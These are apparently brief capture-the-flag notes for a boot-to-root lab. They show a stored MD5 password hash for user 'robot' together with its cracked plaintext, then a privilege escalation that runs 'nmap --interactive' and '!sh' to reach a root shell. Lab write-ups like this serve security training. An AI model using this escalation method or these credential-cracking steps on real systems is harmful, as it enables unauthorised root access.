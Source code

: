 # User
/home/robot/password.raw-md5
	robot:c3fcd3d76192e4007dfb496cca67e13b
	=> robot:abcdefghijklmnopqrstuvwxyz

# Root
$ nmap --interactive
nmap> !sh
# id
root
